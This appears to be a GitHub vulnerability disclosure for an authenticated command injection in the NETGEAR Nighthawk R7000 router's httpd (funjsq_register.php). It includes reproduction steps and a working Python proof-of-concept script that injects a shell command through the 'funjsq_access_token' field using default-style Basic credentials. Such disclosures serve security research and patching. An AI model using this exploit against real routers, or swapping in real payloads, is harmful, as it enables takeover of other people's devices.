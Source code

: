 # NETGEAR-R7000

>  NETGEAR Nighthawk Wireless Router R7000 httpd Command Injection Remote Code Execution Vulnerability
>
### Overview of the Vulnerability
There is a remote command injection vulnerability in the latest firmware version v1.0.11.208 of Nighthawk router R7000. The vulnerability exists in the httpd service. Request the "funjsq_access_token" parameter of the "funjsq_register.php" interface through POST, and execute any command.

### Steps to Reproduce
1.Access the http service of the router for login authentication;

2.On the basis of authentication, you construct a POST request and send it to the http server. Url = 'http://192.168.1.1:8080/funjsq_register.php' data = {"status": "123", "code": "123", "msg": "123", "funjsq_access_token": "touch /tmp/test.txt"}

3.Check whether the test.txt file has been created in the tmp directory through UART, etc.

### Proof of Concept
The screenshot below demonstrates the RCE in the application through the specified parameter:
![image](https://github.com/t0ptop/NETGEAR-R7000/assets/82027562/f576d655-ac3d-48f5-b655-07c6e4b04be7)
![image](https://github.com/t0ptop/NETGEAR-R7000/assets/82027562/80285c14-9fce-4997-ad6e-5d0330bdd73a)

### POC
```
import requests
import sys

def attack():
    # base64(name:passwd)
    base64 = 'YWRtaW46cGFzc3dvcmQ='
    header={
        'Host':'192.168.1.1:80',
        'Authorization': 'Basic ' + base64,
        'Content-Type': 'application/x-www-form-urlencoded',
        'Connection': 'close',
    }

    data = {
        "status":"123",
        "code":"123",
        "msg":"123",
        "funjsq_access_token":"`touch /tmp/test.txt`"
    }
    urls = 'http://192.168.1.1:80/funjsq_register.php'
    try:
        ret = requests.post(url=urls,
                      headers=header,
                      json=data,
                      timeout=30,
                      )
    except Exception:
        return

if __name__ == "__main__":
    attack()
```

